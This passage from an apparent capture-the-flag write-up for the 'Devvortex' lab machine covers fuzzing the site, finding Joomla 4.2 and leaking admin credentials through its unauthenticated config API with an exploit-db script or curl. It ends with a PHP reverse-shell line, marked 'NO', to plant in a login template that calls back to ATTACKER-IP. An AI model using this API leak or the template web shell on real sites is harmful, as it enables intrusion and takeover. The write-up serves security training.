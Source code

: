 ```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://dev.devvortex.htb/FUZZ -t 200 --hc 404,403
```
and the 2 lists compares, so seems there are not more directories to look for.

From this file we also now know that the site is using Joomla, a CMS, would be nice to know its version to check for known vulnerabilities.

What about files, beside the usual robots.txt that we have already seen, i have used *wfuzz* again:
```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -u http://dev.devvortex.htb/FUZZ -t 200 --sc 200 
```
There are a total of 4 files found:
```
LICENSE.txt
README.txt
htaccess.txt
robots.txt
```

Viewing the README file we can see that the Joomla version is 4.2
With a quick web search i found an exploit: https://www.exploit-db.com/exploits/51334, we can download it.
Since it is written in ruby you need ruby on your machine, you can install it via apt, and install libraries with this command:
```bash
sudo gem install LIBRARY_NAME
```

Then run the exploit
```bash
ruby exploit.rb http://dev.devvortex.htb/
```
or use this
```bash
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
to get the JSON info from the api

Here is the username and the password:
```json
{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}}
```

Now we can login into the administrator page at http://dev.devvortex.htb/administrator with the credentials we have just found.

---
NO
Go into system panel on the left, templates, chose administrator template, edit the login.php file and add this:
```php
system('bash -c "bash -i >& /dev/tcp/ATTACKER-IP/1234 0>%1"');
```
---
